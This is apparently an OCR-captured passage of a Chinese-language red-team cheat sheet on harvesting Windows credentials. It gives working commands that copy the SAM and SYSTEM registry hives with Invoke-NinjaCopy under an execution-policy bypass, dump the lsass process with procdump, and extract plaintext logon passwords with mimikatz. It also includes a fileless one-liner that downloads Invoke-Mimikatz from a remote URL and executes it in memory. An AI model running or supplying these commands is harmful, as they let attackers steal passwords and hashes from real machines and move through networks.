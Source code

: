 ##### 使用Invoke-NinjaCopy

```powershell
powershell -exec bypass
Import-Module .\invoke-ninjacopy.ps1
# -Path SAM/SYSTEM了路径  -LocalDestination 保存位置
Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination c：\sam.hive 
Invoke-NinjaCopy -Path C:\Windows\System32\config\SYSTEM -LocalDestination c：\system.hive
```

利用上述手段将两个文件保存到本地，再用saminside或cain导入

```powershell
#### Saminside

exe程序，需要拿到sam和system文件

#### Cain

类似Saminside。
```

---



##### 离线提取lsass进程

任务管理器找到lsass进程后右键转储文件。（不同版本Windows进程名可能不同）

##### procdump.exe

```powershell
#cmd下
procdump.exe -ma lsass.exe lsass.dmp
```
再用mimikatz提取密码(管理员)  （有Powershell版Mimikatz）

```powershell
sekurlsa::minidump lsass.dmp 
sekurlsa::logonpasswords
```
#### 在线凭证收集

##### Mimikatz

https://github.com/gentilkiwi/mimikatz

##### Powershell版Mimikatz

```powershell
# Powershell版
#写好的Powershell文件
powershell Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords full"'

#无文件执行
powershell Iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1’);Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords full"'
```
